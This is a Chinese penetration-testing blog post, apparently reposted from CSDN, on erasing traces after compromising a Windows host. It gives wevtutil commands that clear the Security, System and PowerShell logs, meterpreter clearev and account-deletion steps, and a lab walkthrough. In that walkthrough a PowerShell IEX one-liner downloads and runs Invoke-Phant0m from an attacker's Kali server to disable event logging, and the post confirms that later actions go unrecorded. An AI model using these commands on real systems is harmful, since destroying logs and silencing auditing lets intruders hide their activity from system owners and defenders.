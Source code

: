 Windows痕迹清除
Windows日志
如何查看：
事件查看器->windows日志
win+r eventvwr.msc

保存路径：
C:\Windows\System32\winevt\Logs

（1）在控制面板中的管理工具中，本地安全策略中的本地策略中的审核策略一些事件的开启（以管理员身份运行）
（2）在事件查看器中的安全，右键点击属性，查看日志的路径


Windows日志清理
（1）wevtutil.exe：
用于检索有关事件日志和发布者的信息，安装和卸载事件清单，运行查询以及导出，存档和清除日志

#获取security的最近十条日志
wevtutil.exe qe Security /f:text /rd:true /c:10
#获取security的前十条日志
wevtutil.exe qe Security /f:text /c:10
#默认视图xml查看（text视图不会输出EventRecordID）
wevtutil.exe qe Security /rd:true /c:10

#导出security所有日志到1.evtx
wevtutil.exe epl security 1.evtx

wevtutil cl security
wevtutil cl system
wevtutil cl application
wevtutil cl “windows powershell”

有相关的命令可以使用


meterpreter清理日志
（2）meterpreter清理日志（必须是在管理员的权限下才能清除）
删除所有在渗透过程中使用的工具
删除之前添加的账号：net user username /del
删除应用程序，系统安全日志：clearev #分别清除了应用程序，系统和安全模块的日志记录。
关闭所有的meterpreter连接：sessions -K

查看事件日志：run event_manager -i
删除事件日志：run event_manager -c

停止日志记录工具
https://github.com/hlldz/Invoke-Phant0m

日志进程分析工具
Process Hacker 2


利用脚本让日志功能失效，无法记录日志
powershell “IEX(new-object system.net.webclient).downloadstring(‘http://192.168.231.147:8000/Invoke-Phant0m.ps1’);Invoke-Phant0m”

我来大家讲解一下具体的停止日志记录步骤吧
首先，下载Invoke-Phant0m到klai上进行监听，也就是这个脚本


我们放入到kali的tools下

打开python中的http服务进行监听

我们查看一下win7的日志进程是哪个，看PID，打开任务管理器，找window服务主进程，svhost.exe

进入服务后，找到eventlog，看到日志记录的进程时812

进入Process Hacker查看一下进程

点击查看一下进程

我这里是已经显示停止了日志的进程了，因为刚才实验的时候，忘记截图了，没能还原之前的记录了。

之前的是有log记录的，我们已经在kali中监听了，我们返回到win7中执行以下脚本，看看有没有回应
powershell “IEX(new-object system.net.webclient).downloadstring(‘http://192.168.231.147:8000/Invoke-Phant0m.ps1’);Invoke-Phant0m”



这里就显示已经停止了。

这里也返回了回应，实验成功了。这时候，我们创建一个用户，看看在事件查看器中是否记录我们的创建的日志


发现并没有被记录，停止日志记录成功了。
————————————————

                            版权声明：本文为博主原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接和本声明。
                        
原文链接：https://blog.csdn.net/lza20001103/article/details/137750020